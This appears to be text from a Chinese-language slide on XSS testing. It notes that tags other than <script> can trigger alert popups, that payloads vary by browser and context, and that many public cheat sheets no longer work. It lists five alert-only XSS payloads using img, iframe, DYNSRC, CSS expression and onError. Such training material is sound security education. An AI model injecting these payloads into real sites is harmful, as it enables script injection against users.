

# 多标签测试
测试XSS的过程中，能触发弹窗效果的，远不止<script>这一种标签
跨站代码不尽相同
不同浏览器
不同的场景
不同环境
许多已公开的XSS Sheet已无法使用
现在浏览器中的XSS Filter可以针对钓鱼攻击的脚本进行过滤
防范反射型跨站效果明显
<img src=“javascript:alert(‘xss’)”></img>
<img DYNSRC=“javascript:alert(‘xss’)”>
<iframe src=“javascript:alert(‘xss’)/”>
<img src=“” style=“test:expression(alert(‘xss’)):”>
<img src=x onError=alert('xss')>
13
2022/6/11